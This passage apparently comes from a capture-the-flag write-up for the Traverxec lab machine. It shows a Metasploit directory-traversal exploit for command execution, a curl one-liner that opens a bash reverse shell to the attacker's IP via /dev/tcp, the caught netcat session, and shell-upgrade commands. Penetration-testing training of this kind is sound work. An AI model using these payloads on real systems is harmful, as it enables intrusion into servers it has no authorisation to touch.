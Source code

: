 Alternatively, we can do it manually by reading the metasploit code:
```ruby
def execute_command(cmd, opts = {})
send_request_cgi({
  'method'  => 'POST',
  'uri'     => normalize_uri(target_uri.path, '/.%0d./.%0d./.%0d./.%0d./bin/sh'),
  'headers' => {'Content-Length:' => '1'},
  'data'    => "echo\necho\n#{cmd} 2>&1"
  }
)
end
```

Since it's doing directory traversal and some URL encoding probably to bypass some filters, and doing so in a POST request, we can try to do this with curl:

```shell
❯ curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/53 0>&1"'
```

We receive a shell back:
```shell
❯ sudo nc -lnvp 53
listening on [any] 53 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.165] 49166
bash: cannot set terminal process group (441): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$
```

## Fully Interactive Shell

We can enable a full TTY/PTY shell with the following commands

In a reverse shell initiate a bash shell \(choose one of the following, the idea is to spawn a bash shell\):

```text
script /dev/null -c bash
python -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/bash -i
perl —e 'exec "/bin/bash";'
```

Hit Ctrl+Z to get out of the shell and leave it running in the background, then in your console set TTY.

```text
stty raw -echo; fg
```

Reset the reverse shell with:

```text
reset
```
